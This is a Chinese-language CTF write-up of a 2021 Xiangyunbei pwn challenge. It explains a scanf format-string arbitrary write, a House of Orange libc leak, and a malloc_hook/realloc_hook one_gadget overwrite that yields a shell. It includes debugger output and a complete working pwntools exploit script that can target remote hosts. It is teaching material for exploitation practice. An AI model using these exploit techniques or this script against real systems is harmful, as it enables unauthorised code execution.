

# 前言
这是祥云杯2021的一道pwn题，题目看起来简单，很多人做出来了，但是我看了分析了半天找到了可疑的地方，没找到漏洞点，后来才发现就是一个很简单的任意地址写（可以通过格式化字符串来写），当时看到先read(buf),又scanf(buf),就觉得很奇怪为什么read完之后又scanf，后来看了writup后恍然大悟，发现这不就是通过read输入（格式化）数据，然后通过scanf任意地址写吗？找到了漏洞点后面就可以展开分析了。
# 题目分析
[题目链接](https://github.com/1094093288/IMG/tree/master/Pwn/PwnAttachment/xiangyunbei2021)
这个题目同样保护全开，题目给了libc-2.23.so，Ubuntu16.04的环境，先看一下程序功能：
1. add 输入size和content，输出当前chunk的地址。
2. say 也就是漏洞点的地方，read输入长度为64的字符，然后scanf可以输入buf，但此时的buf并不是一个承接输入的指针，而是相当于scanf的第一个参数格式化字符串处理，当read(buf)输入的是'%n$s'的时候就会当成格式化字符串处理，从而实现任意地址写，所以当buf不是格式化字符串的时候会出现异常情况。
3. show 输出当前chunk的content。
漏洞点：
```
__int64 sub_11DA()
{
  char buf[104]; // [rsp+0h] [rbp-70h] BYREF
  unsigned __int64 v2; // [rsp+68h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("say ? ");
  read(0, buf, 0x64uLL); <-- 输入格式化字符串
  printf("? ");
  __isoc99_scanf(buf); <-- 任意地址写
  printf("know");
  return 0LL;
}
```
# 利用思路
发现题目并没有free得到操作，这时就符合house of orange的利用思路。House of Orange 的核心在于在没有 free 函数的情况下得到一个释放的堆块 (unsorted bin)。 这种操作的原理简单来说是当前堆的 top chunk 尺寸不足以满足申请分配的大小的时候，原来的 top chunk 会被释放并被置入 unsorted bin 中，通过这一点可以在没有 free 函数情况下获取到 unsorted bins。此时就可以申请出unsorted bin从而通过show泄露出libc。
1. 通过任意地址写覆盖topchunk为较小的值（一般将高位覆盖为\x00）。
2. 申请chunk直到topchunk不够分配，free到unsorted bin，然后申请chunk将unsorted bin申请出来，得到libc。
3. 通过改写malloc_hook为one_gadget来获取shell（通过realloc_hook调整栈）。
# 调试过程
找到了漏洞点和利用思路，我们就可以有针对性地调试验证
## 泄露heap地址，拿到topchunk地址
这个题目直接给了，直接拿到：
```python
    context.log_level = "debug"
    heap_base = add(0x100, 'a' * 0x100) - 0x10
```
看一下此时的topchunk
```bash
pwndbg> x/16gx 0x55b718f8b110
0x55b718f8b110: 0x6262626262626262      0x0000000000020ef1
0x55b718f8b120: 0x0000000000000000      0x0000000000000000
```
## 覆盖top chunk
通过say功能覆盖topchunk，这个时候需要找到topchunk的地址，从而通过scanf格式化字符去写到相应的地址，题目给我们chunk的地址了，所以可以拿到heap的基址从而得到当前topchunk的地址，然后再确定topchunk地址和格式化字符串的偏移，从而将任意内容写到topchunk。
```python
def edit(addr, content):
    say('%7$s%7$s' + p64(addr))  # scanf('%7$s%7$s',addr)  %7$s Alignment offset
    sh.sendlineafter('? ', content)
    sh.sendline(content)
edit(heap_base + 0x110, 'b' * 8 + p64(0xef1))
```
确定偏移如下,定位到scanf地方，找到想要覆盖的地址，通过fmtarg确定偏移：


可以看到read读入`%7$s%7$s`+p64(0x55b718f8b110)为格式化字符串，后面的0x55b718f8b110为要覆盖的地址，可以看到0x7ffffe920238存的就是栈上要覆盖的地址，确定长度为7，其实一个`%7$s`就行，`%7$s`这里是为了对齐,这里注意只能用格式化字符串填充。当scanf的时候就会向偏移为7的地方，也就是地址0x55b718f8b110处写入数据，这里写入如下:


可以看到topchunk已经改小了，接下来就是不断申请使得topchunk free到unsorted bin。
## free top chunk
通过不断申请，将top chunk free到unsorted bin，再申请出来，show出libc。
```python
    for i in range(0xd):      
        add(0x100, 'a' * 0x100) #填充
    add(0x28, 'a' * 0x28)
    add(0xd8, 'a' * 0xd8)  # free topchunk
    add(0xc8, 'a' * 8)   # 申请unsorted bin 
    show()          # 泄露libc
    libc_base = get_address(sh, True, info="libc_base:\t", offset=-0x3c4b78)
```
## 覆盖malloc_hook为onegadget

```python
    one = libc_base + 0x4527a#0x45226 0x4527a 0xf0364 0xf1207
    get_gdb(sh)
    edit(libc_base + 0x3c4b10 -8, p64(one) + p64(libc_base + 0x84710+13))  #edit realloc_hook->one & malloc_hook -> realloc_hook+offest
    add(0x18, 'a' * 0x18)
    sh.interactive()
```
这里需要涉及一个点，onegadget的使用受到条件的限制，当所有的条件都满足不了就需要调整栈帧，使其能够满足条件，这里介绍一个用realloc_hook调整栈帧的方法。
我们都知道onegadget需要为execve('/bin/sh',0,0)提供参数条件,当条件不满足（常见的是第二个参数rsi寄存器）就无法使用，这里的调整栈帧的方法原理将malloc_hook覆盖为__GI___libc_realloc+13（此偏移可以调整），将realloc_hook覆盖为onegadget，当malloc的时候调用malloc_hook（__GI___libc_realloc）可以调整栈空间，之后当再调用realloc_hook的时候触发getshell。此方法能成功的点就在于调用malloc函数，不仅会执行malloc_hook还会接着执行realloc_hook。
```bash
pwndbg> disassemble 0x00007ffff7a91710
Dump of assembler code for function __GI___libc_realloc:
   0x00007ffff7a91710 <+0>:	push   r15
   0x00007ffff7a91712 <+2>:	push   r14
   0x00007ffff7a91714 <+4>:	push   r13
   0x00007ffff7a91716 <+6>:	push   r12
   0x00007ffff7a91718 <+8>:	mov    r12,rsi
   0x00007ffff7a9171b <+11>:	push   rbp
   0x00007ffff7a9171c <+12>:	push   rbx
   0x00007ffff7a9171d <+13>:	mov    rbx,rdi
   0x00007ffff7a91720 <+16>:	sub    rsp,0x38
   0x00007ffff7a91724 <+20>:	mov    rax,QWORD PTR [rip+0x33f8a5]        # __realloc_hook
   0x00007ffff7a9172b <+27>:	mov    rax,QWORD PTR [rax]                 # *__realloc_hook ->onegadget
   0x00007ffff7a9172e <+30>:	test   rax,rax
   0x00007ffff7a91731 <+33>:	jne    0x7ffff7a91958 <__GI___libc_realloc+584> <------

............
   0x00007ffff7a91958 <+584>:	mov    rdx,QWORD PTR [rsp+0x68]
   0x00007ffff7a9195d <+589>:	call   rax                                # call onegadget
   0x00007ffff7a9195f <+591>:	mov    rbp,rax

```


可以看到，如下是没有进行栈调整时的rsp+0x30的地方



当触发onegadget后执行到execve处参数情况，rsi!=0,我们要调整rsp+0x30指向0处，需要将rsp减去 0x7ffdf629fce0-0x7ffdf629fca8 = 0x38 ，刚好需要一个`sub    rsp,0x38`就好，所以指向__GI___libc_realloc+13处来调整栈使rsp+0x30指向0,经过调整栈帧后rsp+0x30处指向了0：


此时也成功的获得了shell。
```bash
[DEBUG] Received 0x6 bytes:
    'size: '
[DEBUG] Sent 0x3 bytes:
    '24\n'
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x2a bytes:
    'flag{v56fdv6fd1v5f6v6fdb5b465vbdshjgvbfv}\n'
[*] Stopped process './note' (pid 43224)
[+] The flag is flag{v56fdv6fd1v5f6v6fdb5b465vbdshjgvbfv}
```
# exp
```python
import logging
from pwn import *
elf = None
libc = None
file_name = "./note"
context.terminal = ['tmux', 'sp', '-h']
# context.timeout = 1

def get_file(dic=""):
    context.binary = dic + file_name
    return context.binary

def get_libc(dic=""):
    libc = None
    try:
        data = os.popen("ldd {}".format(dic + file_name)).read()
        for i in data.split('\n'):
            libc_info = i.split("=>")
            if len(libc_info) == 2:
                if "libc" in libc_info[0]:
                    libc_path = libc_info[1].split(' (')
                    if len(libc_path) == 2:
                        libc = ELF(libc_path[0].replace(' ', ''), checksec=False)
                        return libc
    except:
        pass
    if context.arch == 'amd64':
        libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
    elif context.arch == 'i386':
        try:
            libc = ELF("/lib/i386-linux-gnu/libc.so.6", checksec=False)
        except:
            libc = ELF("/lib32/libc.so.6", checksec=False)
    return libc

def get_sh(Use_other_libc=False, Use_ssh=False):
    global libc
    if args['REMOTE']:
        if Use_other_libc:
            libc = ELF("./libc.so.6", checksec=False)
        if Use_ssh:
            s = ssh(sys.argv[3], sys.argv[1], sys.argv[2], sys.argv[4])
            return s.process(file_name)
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process(file_name)

def get_address(sh, libc=False, info=None, start_string=None, address_len=None, end_string=None, offset=None,
                int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if libc == True:
        return_address = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
    elif int_mode:
        return_address = int(sh.recvuntil(end_string, drop=True), 16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8, '\x00'))
    elif context.arch == 'amd64':
        return_address = u64(sh.recvuntil(end_string, drop=True).ljust(8, '\x00'))
    else:
        return_address = u32(sh.recvuntil(end_string, drop=True).ljust(4, '\x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        log.success(info + str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.recvrepeat(0.1)
    sh.sendline('cat flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh, gdbscript=None, addr=0, stop=False):
    if args['REMOTE']:
        return
    if gdbscript is not None:
        gdb.attach(sh, gdbscript=gdbscript)
    elif addr is not None:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(sh.pid)).readlines()[1], 16)
        log.success("breakpoint_addr --> " + hex(text_base + addr))
        gdb.attach(sh, 'b *{}'.format(hex(text_base + addr)))
    else:
        gdb.attach(sh)
    if stop:
        raw_input()

def Attack(target=None, sh=None, elf=None, libc=None):
    if sh is None:
        from Class.Target import Target
        assert target is not None
        assert isinstance(target, Target)
        sh = target.sh
        elf = target.elf
        libc = target.libc
    assert isinstance(elf, ELF)
    assert isinstance(libc, ELF)
    try_count = 0
    while try_count < 3:
        try_count += 1
        try:
            pwn(sh, elf, libc)
            break
        except KeyboardInterrupt:
            break
        except EOFError:
            if target is not None:
                sh = target.get_sh()
                target.sh = sh
                if target.connect_fail:
                    return 'ERROR : Can not connect to target server!'
            else:
                sh = get_sh()
    flag = get_flag(sh)
    return flag

def choice(idx):
    sh.sendlineafter("choice: ", str(idx))

def add(size, content):
    choice(1)
    sh.sendlineafter("size: ", str(size))
    sh.sendafter("content: ", content)
    sh.recvuntil('addr: ')
    return int(sh.recvuntil('\n', drop=True), 16)

def say(say):
    choice(2)
    sh.sendafter("say ? ", str(say).ljust(0x64, '\x00'))

def edit(addr, content):
    say('%7$s%7$s' + p64(addr))  # scanf('%7$s%7$s',addr)  %7$s Alignment offset
    sh.sendlineafter('? ', content)
    sh.sendline(content)

def show():
    choice(3)

def pwn(sh, elf, libc):
    context.log_level = "debug"
    heap_base = add(0x100, 'a' * 0x100) - 0x10
    log.success("heap_base:\t" + hex(heap_base))
    #get_gdb(sh)
    edit(heap_base + 0x110, 'b' * 8 + p64(0xef1))
    for i in range(0xd):      
        add(0x100, 'a' * 0x100)
    add(0x28, 'a' * 0x28)
    add(0xd8, 'a' * 0xd8)
    add(0xc8, 'a' * 8)
    show()
    
    libc_base = get_address(sh, True, info="libc_base:\t", offset=-0x3c4b78)
    one = libc_base + 0x4527a#0x45226 0x4527a 0xf0364 0xf1207
    #get_gdb(sh)
    edit(libc_base + 0x3c4b10 -8 , p64(one) + p64(libc_base + 0x84710+13))  #edit realloc_hook->one & malloc_hook -> realloc_hook+offest
    # gdb.attach(sh, "b *" + hex(one))
    get_gdb(sh)
    add(0x18, 'a' * 0x18)
    sh.interactive()

if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh, elf=get_file(), libc=get_libc())
    sh.close()
    log.success('The flag is ' + re.search(r'flag{.+}', flag).group())
```
[exp链接](https://github.com/1094093288/IMG/blob/master/Pwn/PwnWriteup/xiangyunbei2021/exp.py)
# 总结
这道题目通过一个read和scanf实现了任意地址写的漏洞，没有free功能，通过house of orange来free掉top chunk，从而泄露libc，覆盖malloc_hook为onegadget获取shell，不幸的是所有的onegadget都成功不了，那就用realloc_hook来调整栈帧的rsp指向，通过malloc_hook->__GI___libc_realloc->realloc_hook->onegadget的调用链得到可以成功getshell的条件，成功获取shell。经过这道题我体会到了onegadget失效后的解决方法以及house of orange的练习，还需继续学习啊^-^
